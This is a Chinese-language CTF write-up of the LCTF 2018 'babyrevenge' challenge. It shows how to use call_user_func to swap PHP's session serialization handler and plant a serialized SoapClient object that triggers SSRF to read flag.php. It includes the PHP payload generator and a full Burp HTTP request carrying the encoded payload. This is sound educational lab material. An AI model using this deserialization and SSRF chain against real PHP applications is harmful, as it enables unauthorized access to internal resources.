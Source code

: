

**python 脚本**

```

```



### 例子2：配合call_user_func修改session配置



#### LCTF 签到题

- 利用回调函数来覆盖session默认的序列化引擎。
- 序列化到原生类Soap对象，将序列化语句写入session文件
- b变量覆盖为call_user_func。
- 利用将对象与其方法构造成一个数组来进行函数调用，使得调用该对象的成员方法。这里是调用Soap的welcome_to_the_lctf2018方法，自然会触发__call
- 触发__call方法进行SSRF访问flag.php.
- 将flag写入session。题目会将session打印出来。





获取Soap对象的序列化语句

```php
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
?>
```





burp发送

```http
POST /web/LCTF2018/babyrevenge/index.php?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A3%3A%7Bs%3A3%3A%22uri%22%3Bs%3A38%3A%22http%3A%2F%2F127.0.0.1%2Fweb%2FLCTF2018%2Fflag.php%22%3Bs%3A8%3A%22location%22%3Bs%3A38%3A%22http%3A%2F%2F127.0.0.1%2Fweb%2FLCTF2018%2Fflag.php%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
Host: 192.168.1.22
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=rbtgu59dmpicqgk0ffkunogg1l
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```
